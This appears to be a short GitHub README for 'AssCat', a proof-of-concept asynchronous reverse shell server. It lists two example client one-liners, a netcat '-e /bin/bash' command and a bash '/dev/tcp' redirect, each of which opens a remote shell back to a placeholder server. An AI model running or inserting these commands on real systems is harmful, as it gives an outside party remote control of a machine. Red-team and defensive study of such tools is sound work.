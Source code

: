 ## AssCat🍑 
### Async (Reverse) Shell Server  

##### (only a PoC at the moment, project name might change)
<br>

###### Supports raw shell clients like:
```nc <SERVER_IP> <SERVER_PORT> -e /bin/bash```

###### or:
```bash -i >& /dev/tcp/<SERVER_IP>/<SERVER_PORT> 0>&1```

###### etc...